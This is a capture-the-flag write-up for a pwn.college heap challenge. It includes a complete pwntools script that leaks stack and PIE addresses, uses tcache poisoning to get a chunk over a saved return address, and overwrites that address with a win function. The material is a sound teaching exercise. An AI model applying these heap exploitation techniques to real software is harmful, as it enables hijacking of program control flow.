 ```yaml
---
layout: post
title: (Dynamic Allocator Misuse) level 15
categories: pwn.college Dynamic-Allocator-Misuse
date: 2025-10-11 07:00:22 +0300
tags: pwn.college PIE ASLR heap house-of-force tecache metadata house-of-spirit
---
```

## Information
- category: pwn


## Description 
> Leverage TCACHE exploits to obtain the flag.

## Write-up

**Goal:** leak a return address from the stack, compute PIE base, pivot `malloc` so a chunk points at the return address, overwrite it with `win`, and trigger the return.

## Summary
1. Leak a stack pointer using an `echo` primitive.  
2. Compute the saved return address using a known offset from that leak.  
3. Force the next `malloc` to return a chunk that points at the return address.  
4. Use the chunk to leak PIE (from an offset near the return address) and compute `win`'s absolute address.  
5. Overwrite the saved return address in-place with `p64(win_addr)`.  
6. `quit`/return → execution jumps to `win`.

## Exploit
```python
from pwn import *

elf = context.binary = ELF("/challenge/ephemeral-echo-hard")
global p
p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def echo(idx,offset):
    p.sendline(b"echo")
    p.sendline(idx)
    p.sendline(offset)

def read(idx,size,data):
    p.sendline(b"read")
    p.sendline(idx)
    p.sendline(size)
    p.sendline(data)

def quit():
    p.sendline(b"quit")

def exploit():
    malloc(b"0",b"0")

    echo(b"0",b"40")

    p.recvuntil(b"Data: ")
    stack = u64(p.recvline().strip().ljust(8,b"\x00")) + 0x176
    log.success(f"stack: {hex(stack)}")

    malloc(b"0",b"0")
    malloc(b"1",b"0")
    malloc(b"2",b"0")

    free(b"2")
    free(b"1")

    data = b"A"*0x20 + p64(stack)
    read(b"0",b"2008",data)

    malloc(b"0",b"0")
    malloc(b"0",b"0")

    echo(b"0",b"32")

    p.recvuntil(b"Data: ")
    win = u64(p.recvline().strip().ljust(8,b"\x00")) - 0x00000000000015ce + 0x0000000000001400
    log.success(f"stack: {hex(win)}")

    read(b"0",b"2008",p64(win))
    
    quit()

    p.interactive()
    
def main():
    exploit()

if __name__ == "__main__":
    main()
```

